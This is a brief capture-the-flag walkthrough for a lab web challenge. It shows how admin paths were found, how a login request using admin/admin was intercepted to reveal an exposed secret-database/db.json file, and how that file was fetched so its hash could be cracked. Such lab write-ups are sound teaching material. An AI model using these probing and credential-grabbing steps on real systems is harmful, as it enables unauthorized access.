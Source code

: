 - view source you will notice links contain admin, try to access !
```
http://wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com/admin => 403
http://wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com/admin/index.php => 200
http://wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com/admin/=> 200
```
- intercept the request
```
POST /admin/ HTTP/1.1
Host: wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com/admin/
Cookie: PHPSESSID=no0kkjvehrffkmvt1qh2cs1sv4
Upgrade-Insecure-Requests: 1

username=admin&password=admin&db=secret-database%2Fdb.json
```
- notice secret-database%2Fdb.json
- access : wcamxwl32pue3e6mxmdvww5c1v581y3eq9ypfx3m-web.cybertalentslabs.com/admin/secret-database/db.json
- crack the hash
